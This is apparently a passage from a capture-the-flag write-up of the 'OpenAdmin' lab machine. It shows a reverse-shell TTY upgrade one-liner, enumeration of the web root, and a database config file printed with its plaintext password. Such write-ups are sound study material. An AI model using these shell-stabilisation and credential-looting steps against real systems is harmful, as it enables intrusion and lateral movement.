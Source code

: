 ![rev-connect-2](/assets/OpenAdmin/rev-connect-2.jpg)

### Improving our shell

we then upgrade our shell to full tty as normal

`python3 -c 'import pty; pty.spawn("/bin/bash")'` > `CTRL + Z` > `stty raw -echo` > `fg` > `export SHELL=/bin/bash && export TERM=xterm-256color`


### Searching for custom content

we start by enumerating the web root and find a folder called `internal` owned by the user `jimmy` which we cannot access. This gets me to think that we probably would have to **pivot to that user** if we were to read the contents.

```
bash-4.4$ ls -la /var/www/
total 16
drwxr-xr-x  4 root     root     4096 Nov 22  2019 .
drwxr-xr-x 14 root     root     4096 Nov 21  2019 ..
drwxr-xr-x  6 www-data www-data 4096 Mar 19 11:31 html
drwxrwx---  2 jimmy    internal 4096 Mar 19 14:08 internal
lrwxrwxrwx  1 www-data www-data   12 Nov 21  2019 ona -> /opt/ona/www
```

*looking at the number of files inside the `ona` directory,* they turn out to be 1324 files :D
taking a look in every one of them is not feasable by any means. so we look for stuff that might contain something useful.

### Creds in DB settings config file

*after some considerable time,* we find the file `database_settings.inc.php` inside `/var/www/ona/local/config`. It contained the username and password for the database user:

```
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```